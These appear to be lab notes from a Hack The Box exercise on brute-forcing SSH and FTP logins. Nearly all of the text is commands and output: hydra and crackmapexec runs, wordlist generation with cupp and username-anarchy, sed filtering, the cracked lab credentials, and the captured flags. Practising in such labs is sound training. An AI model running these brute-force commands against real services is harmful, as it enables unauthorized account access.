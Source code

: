 # Service Authentication Brute Forcing

## SSH Attack

hydra -L bill.txt -P william.txt -u -f ssh://$TARGET:22 -t 4

ssh b.gates@$TARGET -p 22

## FTP Brute Forcing

netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -   

hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

ftp 127.0.0.1

## LAB

cupp -i

sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers

git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy Bill Gates > bill.txt

hydra -l b.gates -P william.txt -u -f ssh://94.237.63.93:52536 -t 4
crackmapexec ssh 94.237.63.93:52536 -u b.gates -p william.txt

crackmapexec ssh 94.237.63.93 -u b.gates -p william.txt --port 52536

crackmapexec ssh 94.237.55.163 -u b.gates -p william.txt --port 45286

SSH         94.237.55.163   45286  94.237.55.163    [+] b.gates:4dn1l3M!$ 


ssh b.gates:4dn1l3M22@94.237.63.93 -p 45286
4dn1l3M!$ 

cat flag.txt 
HTB{n3v3r_u53_c0mm0n_p455w0rd5!}


ls /home
b.gates m.gates

hydra -l m.gates -P rockyou-10.txt -u -f ftp://127.0.0.1

[21][ftp] host: 127.0.0.1   login: m.gates   password: computer
1 of 1 target successfully completed, 1 valid password found

ssh m.gates@94.237.63.93 -p 45286
computer

cat flag.txt
HTB{1_4m_@_bru73_f0rc1n6_m4573r}